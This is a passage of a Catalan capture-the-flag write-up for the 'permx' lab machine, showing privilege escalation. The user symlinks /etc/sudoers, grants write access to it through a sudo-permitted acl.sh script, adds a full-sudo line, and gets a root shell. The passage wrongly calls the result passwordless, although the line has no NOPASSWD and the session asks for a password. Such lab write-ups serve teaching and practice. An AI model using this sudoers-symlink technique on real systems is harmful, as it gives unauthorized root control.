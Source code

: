 Per tant, intentarem el següent:

Crear l'script per escalar privilegis, creem un fitxer anomenat privilege_escalation.sh a /home/mtz amb el següent contingut:

```
#!/bin/bash 
/bin/bash
```

Aquest script simplement obre una shell. Amb permisos root, obriria una shell amb privilegis root.

Enns assegurem que l'script que hem creat és executable:

``chmod +x /home/mtz/privilege_escalation.sh``

Utilitzem l'script acl.sh per donar permisos:

``sudo /opt/acl.sh mtz rwx /home/mtz/privilege_escalation.sh``

Executem l'script a veure si tenim sort:

``/home/mtz/privilege_escalation.sh``

No ha funcionat, haurem de provar altres coses. Després de vàries hores intent altres coses amb sudo -l ja que sembla que la cosa va per aquí, hem provat el següent amb èxit:

Crear un enllaç simbòlic al fitxer /etc/sudoers utilitzant la comanda ln -s, creem l'enllaç simbòlic anomenat helpfile al fitxer /etc/sudoers. Això crea un punt d'accés directe a aquest fitxer des de la carpeta /home/mtz.

``ln -s /etc/sudoers /home/mtz/helpfile``

Modifiquem els permisos de l'enllaç simbòlic amb l'acl.sh per permetre la lectura i escriptura per a l'usuari mtz.

``sudo /opt/acl.sh mtz rw /home/mtz/helpfile``

Modifiquem el fitxer /etc/sudoers per afegir l'usuari mtz amb permissos de root. Això es pot fer afegint la línia següent:

``nano sudoers``

```
# User privilege specification
root    ALL=(ALL:ALL) ALL
mtz     ALL=(ALL:ALL) ALL`
```


Això permetrà a l'usuari mtz executar qualsevol comanda amb permisos de root sense necessitat de contrasenya.

I ara un cop hem modificat el fitxer /etc/sudoers ja podem utilitzar la comanda sudo su per canviar a l'usuari root sense necessitat de contrasenya. 

Executem la comanda sudo su i posem la contrasenya de l'usuari mtz que hem aconseguit abans com a credencials de la BD i ja serem root:

```
mtz@permx:/etc$ sudo su
[sudo] password for mtz: 
root@permx:/etc# 
```
